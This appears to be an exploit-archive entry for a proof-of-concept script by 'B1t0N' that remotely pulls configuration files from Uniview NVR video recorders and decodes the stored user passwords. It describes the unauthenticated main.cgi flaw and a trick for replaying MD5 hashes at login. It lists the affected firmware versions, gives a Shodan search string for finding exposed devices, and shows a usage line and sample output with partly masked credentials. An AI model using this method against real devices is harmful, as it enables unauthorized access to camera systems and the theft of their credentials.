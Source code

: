 #Uniview NVR remote passwords disclosure
#Author: B1t0N

The Uniview NVR web application does not enforce authorizations on the main.cgi file when requesting json data.
It means that you can do anything without authentication, however you must know the request structure.
In addition, the users' passwords are both hashed and also stored in a reversible way
The POC below remotely downloads the device's configuration file, extracts the credentials
and decodes the reversible password strings using my crafted map

It is worth mention that when you login, the javascript hashes the password with MD5 and pass the request.
If the script does retrieve the hash and not the password, you can intercept the request and replace the generated
MD5 with the one disclosed using this script


Tested on the following models:
  NVR304-16E - Software Version B3118P26C00510
  NVR301-08-P8 - Software Version B3218P26C00512
						version B3220P11
						version B3219P22

 Other versions may also be affected

Shodan dork for similar devices: "Text.VideoManageSystem"

Usage: python nvr-pwd-disc.py http://Host_or_IP:PORT

Run example:

 root@k4li:~# python nvr-pwd-disc.py http://192.168.1.5

 Uniview NVR remote passwords disclosure!
 Author: B1t0n

 [+] Getting model name and software version...
 Model: NVR301-08-P8
 Software Version: B3218P26C00512

 [+] Getting configuration file...
 [+] Number of users found: 4

 [+] Extracting users' hashes and decoding reversible strings:

 User 	|	 Hash 	|	 Password
 _________________________________________________
 admin 	|	3b9c687b1f4b9d87ed0fdd6a***** 	|	<TRIMMED>
 default 	|	 	|	||||||||||||||||||||
 HAUser 	|	288b836a37578141fea6527b5e***** 	|	123HAUser*****
 test 	|	51b2454c681f3205f63b83720***** 	|	AA123pqrst*****

  *Note that the users 'default' and 'HAUser' are default and sometimes inaccessible remotely
